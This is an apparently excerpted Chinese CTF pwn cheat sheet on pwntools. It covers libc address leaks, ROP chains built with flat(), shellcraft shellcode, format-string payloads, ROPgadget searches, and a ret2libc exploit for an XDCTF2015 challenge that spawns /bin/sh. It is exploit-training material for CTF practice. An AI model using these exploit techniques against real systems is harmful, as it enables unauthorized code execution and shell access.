 https://www.jianshu.com/p/a25122632173
2、获取libc里的read，write等函数的地址偏移
用 ldd 命令可以查看可执行文件的依赖库。
命令：ldd+文件名
6.recvuntil()获取6字节地址分析
原因是虽然在64位计算机中，一个地址的长度是8字节，但是实际上的计算机内存只有16G内存以下，所以一般的地址空间只是用了不到 2^48 的地址空间。
因此实际的操作系统中，一个地址的最高位的两个字节是00，而且实际栈地址一般是0x7fxxxx开头的，因此为了避免获取错误的地址值，只需要获取前面的6字节值，然后通过ljust函数把最高位的两字节填充成00。 我们可以用这种一般的写法：
u64(p.recv(6).ljust(8, "\x00"))
7.使用flat()函数来格式化payload
pwntools中可使用flat()构造ROP，可以把ROP=p32(gadget1)+p32(gadget2)+p32(gadget3)+...表示为flat([gadget1,gadget2,gadget3,...])
需要事先告知以何种格式进行pack，在script开头先加上架构名称：context.arch='i386'，如此script就会用p32()帮你自动建好ROP
payload=flat(['A'*112,pop_eax_ret,0xb,pop_edx_ecx_ebx_ret,0,0,binsh,int_0x80])
p.sendlineafter(':',flat(['a'*0x8c,e.plt['system'],0,0x804A024,0,0]))
8、自动生成shellcode
p.send(asm(shellcraft.sh()))
9、格式化字符串漏洞
payload=fmtstr_payload(12,{0x804a048:0x2223322})
10、使用ROPgadget来寻找gadgets
ROPgadget  --binary 文件名 --only "pop|ret"
ROPgadget  --binary lib.so.6 --only "pop|ret" | grep rdi
1、使用ROPgadget --binary level0 --string '/bin/sh'可以得到字符串地址。
2、使用ROPgadget --binary level0 --only 'pop|ret'可以得到pop|ret的返回值
3、使用objdump -d level0 | grep "plt"可得到plt表的地址


借助Libcsearcher实现漏洞利用的方法：
#先leak出write函数在libc中的地址
rop1 = 'a'*112+p32(plt_write)+p32(plt_main)+p32(1)+p32(got_write)+p32(4)
p.recvuntil('Welcome to XDCTF2015~!\n')#就是忘了这一句
p.sendline(rop1)
write_addr = u32(p.recv(4))

#利用LibcSearcher获取libc版本
libc = LibcSearcher('write', write_addr)
lib_base = write_addr - libc.dump('write')
system_addr = lib_base + libc.dump('system')
binsh_addr = lib_base + libc.dump('str_bin_sh')

#调用system函数
p.recvuntil('Welcome to XDCTF2015~!\n')
payload1 = 'a' * 112 + p32(system_addr) + p32(0xdeadbeef) + p32(binsh_addr)
参考题目：
welpwn，pwn100，pwn200

借助DynELF实现无libc的漏洞利用的方法：
https://www.anquanke.com/post/id/85129
参考题目：
welpwn，pwn100，pwn200

